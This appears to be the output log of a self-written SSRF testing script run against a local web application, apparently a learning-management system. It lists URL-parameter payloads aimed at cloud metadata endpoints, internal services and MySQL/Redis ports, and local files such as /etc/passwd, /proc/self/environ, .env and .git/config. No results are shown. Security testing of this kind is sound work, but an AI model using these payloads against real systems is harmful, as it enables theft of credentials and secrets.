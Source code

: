 # SSRF Test Results
**Scan started on Wed Apr 16 17:02:13 AEST 2025**
**Target: http://localhost:4200**
**Request Method: GET**
**Max Time: 7 seconds**
**API Wordlist: api_endpoints.txt**
**Payload Wordlist: payloads.txt**


========================================================
        😎 SSRF Mapping & Testing Script 😎            
     Made with tears and possibly love by Ibi           
========================================================

 🚀 #Starting SSRF testing for http://localhost:4200
## Testing endpoint: http://localhost:4200/api/activity_types
- Testing: `http://localhost:4200/api/activity_types?url=169.254.169.254%2Flatest%2Fmeta-data%2F`
- Testing: `http://localhost:4200/api/activity_types?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2F`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A8080%2Fadmin`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fetc%2Fpasswd`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fproc%2Fself%2Fenviron`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Fadmin`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A3000%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Fapi%2Finternal`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Frails%2Finfo`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Flogs`
- Testing: `http://localhost:4200/api/activity_types?url=mysql%3A%2F%2F127.0.0.1%3A3306%2F`
- Testing: `http://localhost:4200/api/activity_types?url=mysql%3A%2F%2Flocalhost%3A3306%2F`
- Testing: `http://localhost:4200/api/activity_types?url=redis%3A%2F%2F127.0.0.1%3A6379%2F`
- Testing: `http://localhost:4200/api/activity_types?url=redis%3A%2F%2Flocalhost%3A6379%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A9876%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A54247%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A59465%2F`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fvar%2Flog%2Fnginx%2Faccess.log`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.git%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=169.254.169.254%2Fmetadata%2Finstance`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fdocs%2F`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Finternal`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Flogs`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fauth_test`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Foverseer_images`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fcampuses`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fcsv`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fprojects`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fsettings`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fstudents`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fsubmission`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftasks`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fteaching_periods`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_actions`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_eula`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_hook`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftutorials`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Funit_roles`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Funits`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fusers`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.env`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.git`